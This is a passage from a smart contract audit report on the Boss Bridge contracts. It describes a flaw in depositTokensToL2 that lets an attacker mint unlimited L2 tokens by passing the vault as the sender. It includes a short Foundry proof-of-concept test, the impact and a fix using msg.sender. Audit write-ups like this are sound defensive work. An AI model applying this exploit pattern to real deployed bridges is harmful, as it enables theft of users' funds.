 ## Vulnerability Details

The vulnerability arises from the fact that the `depositTokensToL2` function does not perform proper checks on the `from` address. An attacker can pass the address of the vault as the `from` parameter and emit the `Deposit` event multiple times, causing the L2 contract to mint tokens for the attacker. This can lead to an infinite supply of tokens for the attacker on the L2 network.

Foundry (put in test file) PoC:

```
function testCreateInfiniteL2TokenPoC() public {
        // user send money to the bridge
        testUserCanDepositTokens();

        // withdraw to the operator address (steal user's money)
        vm.startPrank(attacker);

        // Create infinite event (and token on L2 for the attacker)
        for (uint i; i < 3; i++) {
            vm.expectEmit(address(tokenBridge));
            emit Deposit(address(vault), attackerInL2, 10e18);
            tokenBridge.depositTokensToL2(address(vault), attackerInL2, 10e18);
        }

        vm.stopPrank();
    }
```

## Impact

By exploiting this vulnerability, an attacker can create an unlimited number of tokens on the L2 network, potentially leading to inflation and devaluation of the token. This can result in financial loss and undermine the integrity of the token system.

## Tools Used

Manual review

## Recommendations

To mitigate this vulnerability, it is recommended to remove the `from` parameter in `depositTokensToL2` function. Use instead `msg.sender` in all places `from` argument is used.

## <a id='H-02'></a>H-02. Signers can steal all the token with `withdrawTokensToL1` in L1BossBridge

### Relevant GitHub Links

https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/main/src/L1BossBridge.sol#L91C1-L125C6

## Summary
